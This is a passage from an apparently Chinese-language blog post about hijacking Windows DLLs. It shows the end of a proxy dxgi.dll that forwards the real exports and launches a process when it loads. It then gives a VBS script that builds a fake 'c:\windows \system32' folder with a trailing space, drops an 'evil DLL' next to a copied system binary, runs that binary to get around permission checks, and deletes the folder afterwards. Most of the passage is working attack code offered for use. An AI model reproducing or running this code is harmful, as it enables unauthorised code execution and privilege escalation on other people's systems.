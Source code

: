 ```
      Hijack_DXGID3D10CreateLayeredDevice = GetAddress("DXGID3D10CreateLayeredDevice");
      Hijack_DXGID3D10GetLayeredDeviceSize = GetAddress("DXGID3D10GetLayeredDeviceSize");
      Hijack_DXGID3D10RegisterLayers = GetAddress("DXGID3D10RegisterLayers");
      Hijack_DXGIDeclareAdapterRemovalSupport = GetAddress("DXGIDeclareAdapterRemovalSupport");
      Hijack_DXGIDumpJournal = GetAddress("DXGIDumpJournal");
      Hijack_DXGIGetDebugInterface1 = GetAddress("DXGIGetDebugInterface1");
      Hijack_DXGIReportAdapterConfiguration = GetAddress("DXGIReportAdapterConfiguration");
      Hijack_PIXBeginCapture = GetAddress("PIXBeginCapture");
      Hijack_PIXEndCapture = GetAddress("PIXEndCapture");
      Hijack_PIXGetCaptureState = GetAddress("PIXGetCaptureState");
      Hijack_SetAppCompatStringPointer = GetAddress("SetAppCompatStringPointer");
      Hijack_UpdateHMDEmulationStatus = GetAddress("UpdateHMDEmulationStatus");
      
            StartProcess();

        }

    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

但是这里又碰上了一个问题，一般这种系统的 dll 都是需要权限才能更改、移动的，劫持的话就需要做一些操作，不过好在发现了一个 vbs 脚本，可以帮助我们来完成这个操作，免除权限问题，代码很简单，就不赘述了

```
Set oFSO = CreateObject("Scripting.FileSystemObject")
Set wshshell = wscript.createobject("WScript.Shell")

' Get target binary and payload
WScript.StdOut.Write("System32 binary: ")
strBinary = WScript.StdIn.ReadLine()
WScript.StdOut.Write("Path to your DLL: ")
strDLL = WScript.StdIn.ReadLine()

' Create folders
Const target = "c:\windows \"
target_sys32 = (target & "system32\")
target_binary = (target_sys32 & strBinary)
If Not oFSO.FolderExists(target) Then oFSO.CreateFolder target End If
If Not oFSO.FolderExists(target_sys32) Then oFSO.CreateFolder target_sys32 End If

' Copy legit binary and evil DLL
oFSO.CopyFile ("c:\windows\system32\" & strBinary), target_binary
oFSO.CopyFile strDLL, target_sys32
' Run, Forrest, Run!
wshshell.Run("""" & target_binary & """")

' Clean files
WScript.StdOut.Write("Clean up? (press enter to continue)")
WScript.StdIn.ReadLine()
wshshell.Run("powershell /c ""rm -r """"\\?\" & target & """""""")
```
